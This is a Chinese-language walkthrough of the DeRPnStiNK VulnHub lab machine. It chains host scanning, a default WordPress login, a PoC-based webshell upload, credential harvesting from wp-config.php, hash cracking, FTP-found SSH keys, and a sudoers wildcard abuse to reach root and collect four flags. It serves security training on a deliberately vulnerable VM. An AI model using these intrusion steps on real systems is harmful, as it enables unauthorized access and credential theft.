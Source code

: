 ### 环境搭建
下载虚拟机包文件VMware或VirtualBox打开，配置网络模式为NAT模式。  
>下载链接:[https://download.vulnhub.com/derpnstink/VulnHub2018_DeRPnStiNK.ova ](https://download.vulnhub.com/derpnstink/VulnHub2018_DeRPnStiNK.ova)

hash:949e2f8a7d63fabdc55c675c95efe022    
### 开搞
#### flag1
首先```nmap -sP 192.168.14.1/24```一波找一下靶机地址
![nmap -sP 192.168.14.1/24](https://raw.githubusercontent.com/trialv/vulnhub_test/master/DeRPnStiNK/png_1.png)    
访问```http://192.168.14.148```查看源码
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/DeRPnStiNK/png_2.png)    
112行处找到flag1:```flag1(52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166)```
#### flag2
进行目录扫描    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/DeRPnStiNK/png_3.png)    
访问```/weblog/```目录url跳转至无法访问页面```http://derpnstink.local/weblog/```    
在首页源码中发现的文件```/webnotes/info.txt```内容如下
><-- @stinky, make sure to update your hosts file with local dns so the new derpnstink blog can be reached before it goes live -->    

将```192.168.14.148  derpnstink.local```写入hosts文件后再次访问```http://derpnstink.local/weblog/```  
该目录为一个WordPress博客地址，后台地址为```http://derpnstink.local/weblog/wp-admin/```
尝试账号密码```admin/admin```成功进入后台    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/DeRPnStiNK/png_4.png)   
利用wpscan扫描WordPress ```wpscan http://derpnstink.local/weblog/```    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/DeRPnStiNK/png_5.png)    
下载poc并使用```python 34514.py -t http://derpnstink.local/weblog/ -u admin -p admin -f [your_shell].php```    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/DeRPnStiNK/png_6.png)    
利用shell读取```wp-config.php```获取到数据库账户密码```root/mysql```    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/DeRPnStiNK/png_7.png)    
登录phpmyadmin在```wp-posts```表中拿到flag2:```flag2(a7d355b26bda6bf1196ccffead0b2cf2b81f0a9de5b4876b44407f1dc07e51e6)```    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/DeRPnStiNK/png_8.png)    
#### flag3
wp-users表中得到hash值```$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41```利用john破解得到```wedgie57```   
利用webshell读取```/etc/password```获得用户名:```stinky```   
测试发现该用户无法使用ssh用户名口令方式登录，登录ftp服务器成功   
在```ftp://192.168.14.148/files/network-logs/derpissues.txt```中发现类似聊天记录```(WTF?谁家聊天记录这么保存的...)```文件  
>12:06 mrderp: hey i cant login to wordpress anymore. Can you look into it?   
12:07 stinky: yeah. did you need a password reset?   
12:07 mrderp: I think i accidently deleted my account   
12:07 mrderp: i just need to logon once to make a change   
12:07 stinky: im gonna packet capture so we can figure out whats going on   
12:07 mrderp: that seems a bit overkill, but wtv   
12:08 stinky: commence the sniffer!!!!   
12:08 mrderp: -_-   
12:10 stinky: fine derp, i think i fixed it for you though. cany you try to login?   
12:11 mrderp: awesome it works!   
12:12 stinky: we really are the best sysadmins #team
12:13 mrderp: i guess we are...   
12:15 mrderp: alright I made the changes, feel free to decomission my account   
12:20 stinky: done! yay

```/files/ssh/ssh/ssh/ssh/ssh/ssh/ssh/key.txt``` 中拿到ssh登录key文件，登录方式为:```ssh -i key.txt stinky@192.168.14.148```     
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/DeRPnStiNK/png_9.png)       
Desktop目录下获得flag3:```flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)``` 
#### flag4
在Documents目录下得到一个数据包    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/DeRPnStiNK/png_10.png)   
应该就是聊天记录中的那个数据，分析这个数据包在某POST请求中获得密码```derpderpderpderpderpderpderp```    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/DeRPnStiNK/png_11.png)    
利用这个密码su切换用户mrderp，在Desktop目录下拿到一个邮件来往记录，记录中提到sudo配置文件```sudoers```,执行sudo    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/DeRPnStiNK/png_12.png)    
```(ALL) /home/mrderp/binaries/derpy*```即mrderp用户只能在binaries目录下执行derpy*文件时使用sudo，创建binaries目录，在derpy.sh中写入```/bin/bash```,sudo执行。    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/DeRPnStiNK/png_13.png)      
在```/root/Desktop/```下拿到flag4:```flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)```    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/DeRPnStiNK/png_14.png)   
### emmm 没了
